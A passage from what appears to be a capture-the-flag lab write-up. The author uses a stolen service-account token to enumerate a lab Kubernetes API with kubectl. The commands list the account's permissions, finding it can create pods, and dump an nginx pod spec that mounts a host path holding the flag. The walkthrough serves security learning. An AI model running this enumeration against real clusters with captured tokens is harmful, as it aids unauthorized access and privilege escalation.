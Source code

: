 The current account can’t do some of the more admin-like things like get information about the namespaces or cluster:

```

oxdf@hacky$ kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token get namespaces
Error from server (Forbidden): namespaces is forbidden: User "system:serviceaccount:default:default" cannot list resource "namespaces" in API group "" at the cluster scope
oxdf@hacky$ kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token cluster-info

To further debug and diagnose cluster problems, use 'kubectl cluster-info dump'.
Error from server (Forbidden): services is forbidden: User "system:serviceaccount:default:default" cannot list resource "services" in API group "" in the namespace "kube-system"

```

The `auth can-i` command in `kubectl` is used to see if a given account can take some action. With the `-list` flag, it will show all permissions:

```

oxdf@hacky$ kubectl auth can-i --list --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
Resources                                       Non-Resource URLs                     Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
pods                                            []                                    []               [get create list]
                                                [/.well-known/openid-configuration]   []               [get]
                                                [/api/*]                              []               [get]
...[snip]...

```

The important line is the third one, which says this account can `get`, `create`, and `list` pods.

#### nginx Container Info

I’ll grab the details of the current `nginx` container:

```

oxdf@hacky$ kubectl get pod nginx -o yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
apiVersion: v1                   
kind: Pod            
metadata:         
  annotations:  
    kubectl.kubernetes.io/last-applied-configuration: |
      {"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{},"name":"nginx","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.2","imagePullPolicy":"Never","name":"nginx","volumeMounts":[{"mountPath":"/root","name":"flag"}]}],"volumes":[{"hostPath":{"
path":"/opt/flag"},"name":"flag"}]}}
  creationTimestamp: "2022-02-13T20:31:02Z"
  name: nginx   
  namespace: default 
  resourceVersion: "511"    
  uid: b204031b-b8af-43c4-af10-add9e03a8ae5
spec:                      
  containers:
```